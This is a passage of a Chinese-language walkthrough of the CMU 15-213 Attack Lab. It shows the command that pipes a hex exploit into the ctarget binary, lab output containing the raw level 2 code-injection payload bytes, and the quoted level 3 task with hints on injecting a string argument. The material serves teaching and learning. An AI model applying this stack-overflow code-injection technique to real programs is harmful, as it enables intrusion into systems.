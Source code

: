 再将保存的`exploit.txt`输入到`ctarget`：

```shell
cat exploit.txt | ./hex2raw | ./ctarget -q
```

得到输出如下：

```shell
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00
```

完成。

## Level 3

> `level 3`还涉及**代码注入攻击**，但**传递字符串**作为参数。
>
> `ctarget`中有`hexmatch`函数和`touch3`函数：
>
> ```c
> /* Compare string to hex represention of unsigned value */
> int hexmatch(unsigned val, char *sval)
> {
>   char cbuf[110];
>   /* Make position of check string unpredictable */
>   char *s = cbuf + random() % 100;
>   sprintf(s, "%.8x", val);
>   return strncmp(sval, s, 9) == 0;
> }
>
> void touch3(char *sval)
> {
>   vlevel = 3; /* Part of validation protocol */
>   if (hexmatch(cookie, sval)) {
>     printf("Touch3!: You called touch3(\"%s\")\n", sval);
>     validate(3);
>   } else {
>     printf("Misfire: You called touch3(\"%s\")\n", sval);
>     fail(3);
>   }
>   exit(0);
> }
> ```
>
> 你的任务是**让`ctarget`重定向至`touch3`并进入`validate`分支，而不是返回`test`**。
>
> 一些忠告：
>
> - 你需要在字符串中包含`cookie`的字符串表示形式。 该字符串应包含8个十六进制数字（从最高位到最低位），并且前导“`0x`”。
> - 回想一下，一个字符串在C中表示为字节序列，后跟一个值为0的字节。在任何Linux机器上都可以使用“`man ascii`”查看所需字符的字节表示。
> - 你注入的代码应将寄存器`％rdi`设置为该字符串的**地址**。
> - 调用函数`hexmatch`和`strncmp`时，它们会将数据压入堆栈，覆盖保留`getbuf`使用的缓冲区的内存部分。 因此，你需要注意放置`cookie`的字符串表示形式的位置。
